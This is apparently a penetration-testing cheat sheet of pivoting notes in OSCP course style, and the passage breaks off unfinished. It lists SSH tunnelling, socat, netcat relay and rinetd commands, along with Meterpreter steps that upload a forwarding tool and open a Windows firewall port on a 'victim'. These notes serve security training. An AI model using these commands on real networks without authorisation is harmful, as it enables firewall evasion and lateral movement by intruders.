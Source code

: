## Pivoting & Redirection:  

	Port Forwarding: For internal network pivoting, firewall avoidance, local connect to mysql, etc.
	SSH Tunneling:
		**Add Tunnel to Existing Session:  ~C  ;  -L 3333:newhost:22
        	Remove tunnel from current session:  ~C  ;  -KL/KR <port>
    		Making tunnels global (so another host can connect to them):  preface L or R with -g or use 0.0.0.0: before local port
	    Local Port Forwarding:
		ex. bypass firewall or address translation
		ssh user@1.1.1.1 -L<listener config>:<forwarder config>  ->  ssh -L [bind_address:]port:host:hostport [username@address]
		on attack box:    sudo ssh -L 0.0.0.0:445:192.168.1.110:445 student@10.11.0.128   (uses ssh to tunnel through firewall and host)
		    then can connect locally on our attack box:  smbclient -L 127.0.0.1 -U Administrator
	    Remote Port Forwarding:
		ex. MITM; PAT/send connection out
		ssh user@1.1.1.1 -R<listener config>:<forwarder config>  ->  ssh -R [bind_address:]port:host:hostport [username@address]
		then on the victim:   ssh -R 10.11.0.4:2221:127.0.0.1:3306 kali@10.11.0.4
		    with listener running on kali (port 2221)
		    then on kali we can do:  sudo nmap -sS -sV 127.0.0.1 -p 2221  and it scans the victim port 3306
	    Dynamic Port Forwarding:
		Proxychains default port is 9050 (/etc/proxychains.conf)
		ssh -D <port> -p <alt port> <user>@<pivot ip>
		ex. ssh -D 127.0.0.1:9050 student@10.11.0.128 ; proxychains nmap --top-ports=20 -sT -Pn 192.168.1.110
	    Reverse Dynamic Port Forwarding:
		...
	Deployable Tools:
		FPipe (Windows)
		    ex. fpipe -l 53 [-s 53] -r 80 192.168.1.101
		    Using Meterpreter:
			upload /tmp/fpipe.exe c:/windows/temp/fp.exe
			run multicommand -cl 'cmd.exe /c netsh advfirewall firewall show rule profile=any name=all'
			execute -f c:/windows/temp/fp.exe -a '-l 3389 -r 22 192.168.200.69'
			run multicommand -cl 'cmd.exe /c netsh advfirewall firewall add rule name=3389 dir=in action=allow protocol=TCP localport=3389'
			-L 33389:172.17.20.10:3389
			ssh user@localhost -p 33389
		Socat (Unix)
			TCP Forward:  socat TCP-LISTEN:8080,fork TCP-CONNECT:192.168.111.114:80
			UDP Forward:  socat UDP4-RECVFROM:161,fork UDP4-SENDTO:localhost:10161
			UDP/TCP:  socat UDP-LISTEN:137 TCP-CONNECT:127.0.0.1:3333
			    For hybrid, use convert locally UDP-TCP, and use TCP SSH tunnels to transmit
		Netcat Relays:
			cd /tmp; mknod backpipe p
			Listener-to-Client Relay:  sends packets from local port to a netcat client connected to TargetIP
				nc -lp [LocalPort] 0<backpipe | nc [TargetIP] [port] | tee backpipe
			Listener-to-Listener Relay:  sends packets from any connnection on LocalPort1 to any connection on LocalPort2
				nc -lp [LocalPort1] 0<backpipe | nc -lp [LocalPort2] | tee backpipe
			Client-to-Client Relay:  sends packets from the connection to PreviousHopIPaddr on port to a netcat client connected to NextHopIP on port2
				nc [PreviousHopIPaddr] [port] 0<backpipe | nc [NextHopIPaddr] [port2] | tee backpipe
		RINETD
			Requires install - sudo apt update && sudo apt install rinetd
			rules in /etc/rinetd.conf:   # bindadress bindport connectaddress connectport
			ex. 0.0.0.0 80 216.58.207.142 80
			sudo service rinetd restart
		Chisel:
			...
		Plink.exe (Windows):